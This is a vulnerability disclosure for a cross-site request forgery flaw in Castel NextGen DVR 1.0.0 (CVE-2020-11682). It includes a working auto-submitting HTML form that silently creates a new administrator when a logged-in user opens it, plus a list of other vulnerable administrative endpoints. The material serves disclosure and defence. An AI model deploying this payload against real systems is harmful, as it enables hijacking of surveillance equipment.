 A CSRF issue, CVE-2020-11682, was identified on **Castel NextGen DVR** version 1.0.0 due to the **__RequestVerificationToken** not being validated by the application

## Timeline

* Issue Disclosed: 3 Jun 2020 - [Blog
  post](https://www.securitymetrics.com/blog/where-did-request-come-from-cross-site-request-forgery-csrf)

## Description

A malicious user can craft a form such as:

~~~.html
<html>
  <body>
    <form action="$RHOST/Administration/Users/Create" method="POST">
      <input type="hidden" name="Username" value="csrf-example" />
      <input type="hidden" name="Email" value="csrf@example.com" />
      <input type="hidden" name="FirstName" value="Test" />
      <input type="hidden" name="LastName" value="Testest" />
      <input type="hidden" name="LDAPUser" value="false" />
      <input type="hidden" name="Roles[0].RoleId" value="0" />
      <input type="hidden" name="Roles[0].IsSelected" value="true" />
      <input type="hidden" name="Roles[1].RoleId" value="1" />
      <input type="hidden" name="Roles[1].IsSelected" value="true" />
      <input type="hidden" name="Roles[2].RoleId" value="2" />
      <input type="hidden" name="Roles[2].IsSelected" value="true" />
      <input type="hidden" name="Roles[3].RoleId" value="3" />
      <input type="hidden" name="Roles[3].IsSelected" value="true" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
~~~

When any user, that is authenticated to the **Castel NextGen DVR**, visits the malicious form a new Administrator is unintentionally created.

The following functionality is known to be vulnerable:

~~~
POST /Administration/Alerts/Create          POST /Administration/SMTP
POST /Administration/Alerts/Delete          POST /EventLog
POST /Administration/Archiving/             GET /Recordings/DeleteAnnotation
POST /Administration/Roles/Delete           POST /Administration/Archiving/Create
POST /Administration/Archiving/Delete       POST /Administration/FileStores/Create
POST /Administration/FileStores/Delete      POST /Administration/LDAP
POST /Administration/Roles/Edit/:RoleId     POST /Administration/Users/Delete
POST /Administration/Users/Create           GET /Recordings/SaveAnnotation
POST /Administration/Users/Edit/:UserId     POST /Administration/Users/ResetPassword
POST /Administration/Archiving/Edit/:ArchiveRuleId
POST /Administration/FileStores/Edit/:FileStoreId
POST /Administration/Alerts/Edit/:EventAlertId
~~~
